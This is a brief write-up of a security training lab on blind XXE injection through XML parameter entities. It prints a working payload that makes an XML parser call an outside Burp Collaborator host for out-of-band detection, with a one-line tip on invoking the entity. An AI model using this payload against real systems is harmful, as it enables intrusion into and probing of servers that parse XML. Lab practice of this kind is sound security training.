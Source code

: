 # Lab: Blind XXE with out-of-band interaction via XML parameter entities

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

----

payload
```<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE mydoc [<!ENTITY % xxe SYSTEM "http://sad.burpcollaborator.net/" > `%xxe;` ]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>```

envoking the entity in it's tag is the trick here !!
